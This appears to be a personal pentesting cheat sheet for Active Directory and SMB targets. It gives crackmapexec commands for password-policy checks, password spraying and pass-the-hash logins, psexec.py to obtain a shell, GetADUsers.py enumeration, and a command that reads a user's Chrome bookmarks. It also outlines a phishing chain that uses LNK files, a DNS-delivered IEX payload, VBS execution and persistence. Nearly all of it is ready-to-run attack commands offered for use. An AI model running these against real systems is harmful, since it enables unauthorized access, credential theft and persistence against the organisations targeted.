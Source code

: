 ## Crackmapexec:
- To check for password policy before doing a password spray to avoid account lockdown
```bash
crackmapexec smb "IP ADDRESS" --pass-pol -u '' -p ''
```
- We can also see it from `enum4linux` or `polenum`
- To do password spraying attack we can do 
```bash
crackmapexec smb "IP ADDRESS" -u "USER LIST" -p "PASS LIST"
```
- If we get a password we can then login to it
```bash
crackmapexec smb "IP ADDRESS" -u "USERNAME" -p "PASSWORD"
```
- If it says `pwned!` we can then use `psexec.py` to open up a shell
- If not we can see if we can list shares using it
```bash
crackmapexec smb "IP ADDRESS" -u "USERNAME" -p "PASSWORD" --shares
```
- We can use crackmapexec to also login using hashes
```bash
crackmapexec smb "IP ADDRESS" -u "USERNAME" -H "HASH"
```

## psexec.py:
- We can use `psexec.py` to login using the hashes
```bash
psexec.py -hashes "NT:LM" "USERNAME"@"IP ADDRESS"
psexec.py "DOMAIN"/"USERNAME":"PASSWORD"@"IP ADDRESS"
```

## GetADUsers.py:
- If we have a username and password we can use `GetADUsers.py` to see users of AD
```bash
GetADUsers.py -all -dc-ip "IP ADDRESS" "DOMAIN"/"USERNAME"
```

## Bookmarks
```bash
type 'C:\Users\AHMED SHER\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak' |findstr.exe /c "name url" | findstr.exe /v "type"
```

## Initial Access Using phishing
- Scenario 1
```
LNK with nslookup to DNS
DNS records with IEX to VBS into tmp
VBS to run exe and add persistence
```
